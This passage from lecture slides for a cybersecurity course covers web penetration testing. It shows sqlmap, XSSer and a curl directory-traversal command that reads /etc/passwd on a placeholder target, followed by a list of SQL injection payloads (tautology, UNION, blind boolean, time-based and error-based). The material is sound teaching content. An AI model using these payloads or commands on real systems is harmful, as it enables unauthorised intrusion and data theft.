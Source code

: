 ### 🛠️ Manual Testing Tools
```bash
# Burp Suite configuration
# Set up proxy on 127.0.0.1:8080
# Configure browser proxy settings

# SQLmap for SQL injection testing
sqlmap -u "http://target.com/page.php?id=1" --batch --dbs

# XSS testing with XSSer
xsser -u "http://target.com/search.php?q=test"

# Directory traversal testing
curl "http://target.com/page.php?file=../../../etc/passwd"
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# Injection Attack Testing

<div class="grid grid-cols-2 gap-8">

<div>

## 💉 SQL Injection Testing

### 🎯 Detection and Exploitation
```sql
-- Basic SQL injection tests
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' /*

-- Union-based injection
' UNION SELECT 1,2,3,4,5 --
' UNION SELECT user(),database(),version() --

-- Boolean-based blind injection
' AND (SELECT SUBSTRING(user(),1,1))='r' --

-- Time-based blind injection
'; WAITFOR DELAY '00:00:05' --
' AND (SELECT SLEEP(5)) --

-- Error-based injection
' AND EXTRACTVALUE(rand(),CONCAT(0x7e,version(),0x7e)) --
```
